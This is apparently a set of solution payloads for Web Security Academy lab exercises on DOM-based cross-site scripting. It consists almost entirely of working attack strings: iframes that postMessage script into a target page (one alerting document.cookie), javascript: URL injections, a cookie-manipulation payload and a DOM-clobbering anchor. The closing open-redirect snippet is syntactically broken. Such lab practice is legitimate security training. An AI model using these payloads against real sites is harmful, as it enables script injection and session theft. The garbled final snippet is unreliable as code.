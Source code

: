 <iframe src="https://0a4d007603fa7e43c0ff24c8004e001d.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','*')">

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">

<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//with open redirect vulnerabltiy
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

